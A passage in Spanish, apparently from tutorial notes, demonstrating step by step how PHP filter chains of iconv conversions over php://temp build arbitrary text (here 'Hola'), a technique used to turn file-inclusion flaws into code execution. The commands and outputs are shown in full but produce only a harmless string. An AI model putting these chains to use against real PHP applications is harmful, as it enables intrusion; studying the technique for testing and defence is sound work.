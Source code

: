 ```bash 
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp');"; echo
```

Reultado: 

```bash 
a+-ABsAJA
```

Explicación: para introducir el comando deseado se tiene que introducir caracter a caracter pero al revés, para este ejemplo introducimos 'Hola', por ello tenemos que ingresar 'aloH'. Podemos ver que tenemos una 'a' incorporada al inicio del código

**Nota:** para este ejemplo apuntamos hacia la ruta `php://temp`, recurso al que podemos apuntar en caso de no conocer o saber a cual dirigirnos en este contexto

Acción 4: 

```bash 
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp');"; echo
```

Resultado:

```bash 
la+-ABsAJ
```

Explicación: concatenamos el conjunto de comandos de la lista de [Filter Chains](#Filter%20Chains) correspondiente (l) con el anterior, teniendo en cuenta de añadir la regla de UTF8.UTF7 para esquivar posible `=`

Acción 5: pasamos a ver el final

```bash
php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp');"; echo
```

Resultado:

```bash 
Hola+-ABs
```
